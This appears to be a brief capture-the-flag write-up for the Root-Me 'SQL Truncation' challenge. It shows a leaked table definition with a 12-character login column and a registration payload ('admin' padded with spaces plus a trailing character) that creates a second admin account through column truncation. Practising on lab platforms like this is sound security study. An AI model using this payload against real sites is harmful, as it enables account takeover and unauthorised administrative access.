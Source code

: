 # SQL truncation

[root-me challenge: SQL Truncation](https://www.root-me.org/en/Challenges/Web-Server/SQL-Truncation): Gain access to the administration zone.

----

Trying to register as admin, in the response:

```text
<!--
CREATE TABLE IF NOT EXISTS user(   
	id INT NOT NULL AUTO_INCREMENT,
    login VARCHAR(12),
    password CHAR(32),
    PRIMARY KEY (id));
-->
```

Using [SQL Truncation Attack](https://linuxhint.com/sql-truncation-attack/):

```text
login=admin+++++++a&password=admin123
```